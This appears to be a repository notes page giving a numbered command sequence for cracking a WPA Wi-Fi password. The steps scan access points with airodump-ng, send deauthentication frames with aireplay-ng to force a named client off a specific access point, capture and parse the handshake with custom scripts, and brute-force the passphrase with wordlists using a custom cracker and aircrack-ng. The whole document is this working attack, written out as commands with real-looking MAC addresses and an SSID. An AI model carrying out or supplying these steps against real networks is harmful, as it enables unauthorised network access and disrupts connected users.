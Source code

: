 ## 1. Scan available access points
sudo airodump-ng -w scan-aps wlp1s0mon
## 2. Extract all APs with their MAC address and channels
python3 extract-aps.py scan-aps-01.cap
## 3. Scan that AP on its channel to get the clients connected to it
sudo airodump-ng --bssid e8:48:b8:f0:0f:9c -c 2 -w do-deauth wlp1s0mon
## 4. Send the deauth frame to that client
sudo aireplay-ng --deauth 10 -a e8:48:b8:f0:0f:9c -c 52:62:E7:6C:26:C2 wlp1s0mon
## 5. Extract the full handshake
## 6. Extract values (ANonce, SNonce, MICs)
<!-- python3 extract-handshake.py do-deauth-05.cap --ssid "4010" --ap e8:48:b8:f0:0f:9c --client 52:62:E7:6C:26:C2 --out handshake.json -->

## 7. Brute-force password and match
python3 wpa_cracker.py do-deauth-02.cap passlist.txt


aircrack-ng -w smartlist.txt -b e8:48:b8:f0:0f:9c --debug do-deauth-05.cap
